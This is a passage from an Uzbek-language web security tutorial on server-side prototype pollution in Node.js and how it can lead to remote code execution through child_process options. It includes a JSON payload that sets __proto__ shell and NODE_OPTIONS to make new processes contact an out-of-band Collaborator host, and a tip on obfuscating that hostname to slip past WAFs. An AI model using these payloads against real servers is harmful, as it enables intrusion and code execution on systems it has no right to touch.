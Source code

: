 Shuningdek, Node ilovalari komandali qatorda `--disable-proto=delete` yoki `--disable-proto=throw` flag’lari yordamida `__proto__` ni o‘chirishi yoki uning ishlashini to‘xtatishi mumkin. Biroq, bu ham `constructor` texnikasi orqali chetlab o‘tilishi mumkin.

Shuningdek, Node ilovalari buyruq qatori flag’lari yordamida **proto** ni o‘chirishi yoki yoniq bo‘lishini oldini olishi mumkin: --disable-proto=delete yoki --disable-proto=throw. Biroq, bu ham constructor texnikasi orqali chetlab o‘tilishi mumkin.

Server-tomonidagi prototype pollution orqali masofadan kod ijrosi (RCE)
Mijoz tomonidagi (client-side) prototype pollution odatda zaif veb-saytni DOM XSS ga ochadi, ammo server-tomonidagi prototype pollution masofadan kod ijrosiga (RCE) olib kelishi mumkin. Bu bo‘limda qachon bunday imkoniyat paydo bo‘lishini aniqlash va Node ilovalarida ba’zi potentsial vektorlarni qanday ekspluatatsiya qilishni o‘rganasiz.

Zaif so‘rovni aniqlash
Node da bir qator buyruq ijro (command execution) uchun xavfli sinklar mavjud, ularning ko‘plari `child_process` modulida uchraydi. Bu funksiyalar ko‘pincha siz dastlab prototype ni ifloslantirgan so‘rovdan asinxron tarzda chaqiriladigan boshqa so‘rov tomonidan ishga tushiriladi. Shuning uchun bunday so‘rovlarni aniqlashning eng yaxshi usuli — prototype ni Burp Collaborator bilan muloqotga sabab bo‘ladigan payload bilan ifloslantirishdir.

`NODE_OPTIONS` atrof-muhit (environment) o‘zgaruvchisi yangi Node jarayonini ishga tushirganda avtomatik qo‘llanadigan buyruq satri argumentlarini belgilash imkonini beradi. Bu `env` obyekti xususiyati sifatida ham mavjud bo‘lgani uchun, agar u aniqlanmagan bo‘lsa, prototype pollution orqali uni nazorat qilish mumkin.

Node’ning yangi bolalik jarayonlarini (child processes) yaratish uchun ishlatiladigan ba’zi funksiyalar ixtiyoriy `shell` xususiyatini qabul qiladi; bu orqali ishlab chiquvchilar buyruqlarni bajarish uchun ma’lum bir shell (masalan `bash`) belgilashlari mumkin. Buni zararli `NODE_OPTIONS` xususiyati bilan birlashtirib, har yangi Node jarayoni yaratilganda Burp Collaborator bilan o‘zaro aloqa sodir bo‘ladigan tarzda prototype ni ifloslantirish mumkin:

```
"__proto__": {
    "shell":"node",
    "NODE_OPTIONS":"--inspect=YOUR-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com"
}
```

Shunday qilib, siz qaysi so‘rov yangi child process yaratganini va buyruq satri argumentlari prototype pollution orqali nazorat qilinishi mumkinligini oson aniqlaysiz.

Maslahat
Hostname ichidagi escap qilingan ikki tirnoq (escaped double-quotes) qat’iy zarur emas. Biroq, bu WAF va boshqa tizimlarning hostname qidirishidan o‘tib ketish uchun hostname’ni obfuskatsiya qilib, false-positive’larni kamaytirishda yordam berishi mumkin.


`child_process.fork()` orqali masofadan kod ijrosi (RCE)
`child_process.spawn()` va `child_process.fork()` kabi usullar ishlab chiquvchilarga yangi Node subprocess (bolalik jarayon) yaratish imkonini beradi. `fork()` metodi `options` obyektini qabul qiladi va shu obyekt ichida potentsial xususiyatlardan biri `execArgv` hisoblanadi. Bu — bolalik jarayon yaratilganda ishlatilishi kerak bo‘lgan buyruq satri argumentlarini o‘z ichiga olgan stringlar massivi. Agar ishlab chiquvchilar bu maydonni aniqlamagan bo‘lishsa, bu `prototype pollution` orqali boshqarilishi mumkin degani.
